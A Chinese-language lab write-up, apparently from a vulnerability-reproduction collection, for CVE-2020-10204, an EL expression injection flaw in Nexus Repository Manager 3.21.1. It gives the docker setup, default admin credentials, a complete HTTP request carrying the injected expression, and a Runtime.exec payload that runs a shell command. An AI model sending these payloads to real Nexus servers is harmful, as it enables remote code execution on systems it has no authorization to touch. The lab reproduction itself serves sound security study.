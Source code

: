 # Nexus Repository Manager 3 远程命令执行漏洞（CVE-2020-10204）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞，这个漏洞是CVE-2018-16621的绕过。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md

## 漏洞环境

执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要访问更新角色或创建角色接口，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后台后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/extdirect HTTP/1.1
Host: 192.168.1.3:8081
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.34435456726224034
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.34435456726224034; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

![](1.png)

参考<https://github.com/jas502n/CVE-2020-10199>，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}`即可成功执行任意命令：

![](2.png)
